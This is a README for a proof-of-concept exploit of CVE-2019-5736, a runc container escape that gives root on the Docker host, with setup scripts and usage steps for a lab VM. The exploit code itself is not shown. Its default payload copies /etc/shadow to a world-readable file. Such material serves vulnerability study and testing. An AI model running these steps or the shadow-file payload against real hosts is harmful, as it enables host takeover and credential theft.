 # CVE-2019-5736 PoC

This repository contains a C-based proof-of-concept exploit for [CVE-2019-5736](https://nvd.nist.gov/vuln/detail/CVE-2019-5736).

This vulnerability allows a malicious Docker container to overwrite the host's `runc` binary and execute arbitrary commands on the host with root privileges – fully compromising the host system.

> Inspired by the original Go-based PoC by [Frichetten](https://github.com/Frichetten/CVE-2019-5736-PoC?tab=readme-ov-file)

## Disclaimer

This code is for **educational purposes only**. Do not run it on any system you do not own or have permission to test. Misuse may result in legal consequences.

## Contents

1. [Project Structure](#1-project-structure)
2. [Environment Setup & Installation](#2-environment-setup--installation)
3. [Usage](#3-usage)  

## 1. Project Structure

```
.
├── docker/                       
│   └── Dockerfile
├── lib/                           
│   └── exploit.h
├── scripts/                       
│   ├── build_docker.sh
│   ├── purge_docker_installation.sh
│   ├── setup_env.sh
│   ├── start_docker.sh
│   └── trigger_exploit.sh
├── src/                         
│   ├── exploit.c
│   └── main.c
├── LICENSE
├── Makefile
└── README.md
```

## 2. Environment Setup & Installation

This exploit has been tested on:

- **Ubuntu 18.04.1** → [Download ISO](https://old-releases.ubuntu.com/releases/18.04.1/)
- **Docker 18.09.1** → [Download binaries](https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz)


### Step-by-step Installation

#### 0. Install dependencies
```bash
sudo ./scripts/install_dependencies.sh
```
> Note: You can safely skip this if you already have installed `wget` and `build-essential`.

#### 1. Install Docker via script
```bash
sudo ./scripts/setup_env.sh
```

> This script installs Docker without systemd or socket activation. It’s ideal for VM labs.

#### 2. Start Docker manually
```bash
sudo dockerd
```

> Note: You’ll need a second terminal to run this in the background.

#### 3. Build the exploit container
```bash
sudo ./scripts/build_docker.sh
```

> This script compiles the exploit and builds a Docker image with the binary inside.

> Note: You can also manually build the exploit binary by running `make`.

### Optional: Clean up the environment

You can completely remove Docker and restore the system to a pre-installation state:
```bash
sudo ./scripts/purge_docker_installation.sh
```

## 3. Usage
First we start our exploit container. You can either use this command:

```bash
sudo docker run -it --name exp --rm runc_exploit
```
or the included shell script:

```bash
sudo ./scripts/start_docker.sh
```

Inside the container we can now start our exploit binary:

```bash
./exploit -c "$COMAND"
```

> The binary takes three arguments: `-h` prints the usage message and `-c` defines the command string payload we want to execute on the host. The last `-d` argument toggles debug prints during execution. (eg. parsing information of `/proc`)

> Note: If the `-c` argument is not provided the exploit will execute `cp /etc/shadow > /tmp/pwned && chmod 644 /tmp/pwned`.

The exploit now waits for an incomming runc process on the host execute 

```bash
sudo ./scripts/trigger_exploit.sh
```

This script will open a new process inside the container executing `bin/sh` and therefore triggering the exploit.

> Note: You could also trigger the exploit by manually executing `docker exec` on the host but the timing is critical for the current PoC version to work. So it could take a few tries... 

If runc was exploited successfully you should see a similiar output:

![output](doc/img/output.png)

We are now able to open our pwned shadow file:

![shadow](doc/img/shadow.png)
